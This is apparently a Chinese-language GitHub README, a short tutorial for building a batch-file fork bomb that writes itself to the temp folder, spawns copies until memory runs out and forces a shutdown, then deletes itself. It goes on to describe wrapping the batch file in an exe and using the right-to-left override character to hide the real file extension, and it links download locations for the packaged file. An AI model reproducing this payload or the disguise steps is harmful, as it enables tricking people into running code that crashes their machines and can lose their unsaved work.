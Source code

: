 
# 打包下载地址 https://yj233.lanzous.com/ic2hu3e 密码:need

一个令电脑内存堆积 导致强制关机的bat
## 我们需要一个ouch.bat
/////手动编辑/////
```bash
(echo :ouch && echo start ouch.bat && echo goto ouch && echo color 2 && echo echo ################## I am YJ, thank u for open this bat,Yours computer will be shutdown ##################) > %temp%/ouch.bat
cd %temp% && ouch.bat
del %0`
```
记事本添加以上代码后，保存修改后缀为bat。'如果你想测试的话可以打开hhh
### CmdEncryption 加密bat文件
不用介绍了 感谢AM电脑吧:年老痴呆
ps:这里我没使用这个 因为没必要 演示一下而已！
#### 之后导入Bat_To_Exe_Converter将bat转换成exe
ps:language可以切换为中文

![battoexe](https://s1.ax1x.com/2020/04/28/JIHGGV.png)
此软件有捆绑功能与填写软件功能 我这里不需要我就不弄了 这是我的配置 自行DIY

##### RLO字符运用
![RLO](https://s1.ax1x.com/2020/04/28/JIbNfP.gif)
看GIF把 不解释了都 
ps:想看后缀请到文件夹设置里设置显示后缀！
附上链接
[点我](https://jingyan.baidu.com/article/ab69b2707a7deb2ca6189f6f.html "点我看看教程")
~~*这个教程真的好小白算是 一个demo了吧*~~
THANK YOU!!!
### END

### 1.exe為自用文件 切勿隨意獲取
#### https://raw.fastgit.org/yj94/ouch/master/1.exe


